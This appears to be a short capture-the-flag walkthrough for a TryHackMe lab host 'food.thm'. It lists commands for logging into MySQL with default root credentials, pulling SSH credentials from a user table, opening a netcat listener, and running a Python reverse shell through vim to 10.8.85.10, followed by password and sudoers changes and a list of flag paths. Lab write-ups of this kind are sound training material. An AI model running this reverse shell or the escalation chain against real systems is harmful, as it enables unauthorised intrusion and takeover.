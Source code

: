 # Food
 1. `mysql -u root -h food.thm -p` password is `root`
 2. `select * from user` now you have user `ramen : noodlesRTheBest`
 3. `ssh ramen@food.thm`
 4. `nc -nvlp 8888`
 5. 
```
vim -c ':!python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.85.10",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'&
```
 7. now you are root
 8. `passwd` and change root passwd
 9. `vim /etc/sudoers` and delete sudo perms
 10. `find / -name flag 2>/dev/null`

# Flags
1. /root/flag
2. /root/.profile
3. /root/.mysql_history
4. /home/bread/flag
5. /home/food/.flag
6. /home/tryhackme/flag7
7. /var/flag.txt
8. /var/log/auth.log
